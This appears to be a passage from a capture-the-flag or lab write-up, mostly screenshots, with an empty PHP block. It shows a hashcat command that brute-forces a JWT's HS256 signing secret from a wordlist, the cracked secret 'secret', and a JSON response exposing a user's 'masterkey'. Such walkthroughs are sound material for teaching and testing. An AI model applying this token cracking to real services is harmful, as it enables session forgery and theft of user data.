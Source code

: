 ```php

```

<img width="826" height="735" alt="image" src="https://github.com/user-attachments/assets/09ad7ad8-a9e8-45a0-946b-32c2eabd9a59" />


```
hashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c /usr/share/seclists/Passwords/scraped-JWT-secrets.txt
```


<img width="1081" height="607" alt="image" src="https://github.com/user-attachments/assets/29f0e292-b703-48cc-9079-ffb0722d4634" />



```
secret
```


<img width="1462" height="871" alt="image" src="https://github.com/user-attachments/assets/06c13f47-eba6-4246-8186-5eccbf436454" />

```json
{"user":{"username":"bob","email":"bob@example.com","masterkey":"b90ca1d9ff843bb1b4752acb6e16939c\n"}}
```




